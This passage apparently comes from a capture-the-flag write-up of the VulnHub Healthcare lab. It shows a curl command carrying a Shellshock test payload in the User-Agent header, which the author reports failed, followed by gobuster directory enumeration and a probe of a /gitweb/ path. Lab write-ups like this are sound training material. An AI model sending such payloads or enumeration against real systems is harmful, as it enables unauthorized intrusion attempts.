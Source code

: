 ```shell
UNIQUE_ID = ZOOcOH8AAAEAAAjc8GQAAAAE
```

As you can see, our request header `User-Agent` is reflected.

**We can try to send the following Shellshock payload:** (From [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi#curl-reflected-blind-and-out-of-band))
```bash
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|17:21:18(HKT)]
└> curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://$RHOSTS/cgi-bin/test.cgi
[...]
HTTP_USER_AGENT = () { :; }; echo "VULNERABLE TO SHELLSHOCK" <br>
[...]
```

But it failed?? No clue about that.

**Content discovery via `gobuster` to find hidden directories and files:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:09:18(HKT)]
└> gobuster dir -u http://$RHOSTS/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 40 
[...]
/images               (Status: 301) [Size: 338] [--> http://10.69.96.76/images/]
/js                   (Status: 301) [Size: 334] [--> http://10.69.96.76/js/]
/index                (Status: 200) [Size: 5031]
/fonts                (Status: 301) [Size: 337] [--> http://10.69.96.76/fonts/]
/phpMyAdmin           (Status: 403) [Size: 59]
/css                  (Status: 301) [Size: 335] [--> http://10.69.96.76/css/]
/vendor               (Status: 301) [Size: 338] [--> http://10.69.96.76/vendor/]
/robots               (Status: 200) [Size: 620]
/addon-modules        (Status: 403) [Size: 49]
/favicon              (Status: 200) [Size: 1406]
/server-status        (Status: 403) [Size: 997]
/gitweb               (Status: 301) [Size: 338] [--> http://10.69.96.76/gitweb/]
Progress: 23234 / 62285 (37.30%)[ERROR] parse "http://10.69.96.76/error\x1f_log": net/url: invalid control character in URL
/server-info          (Status: 403) [Size: 997]
/index                (Status: 200) [Size: 5031]
/perl-status          (Status: 403) [Size: 55]
[...]
```

Hmm... What's that `/gitweb/` directory?

```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:10:12(HKT)]
└> httpx http://$RHOSTS/gitweb/
HTTP/1.1 403 Forbidden
[...]
```

Weird, it just response HTTP status code "403 Forbidden", maybe it has index listing disabled?

After I enumerated every I could, I found nothing.
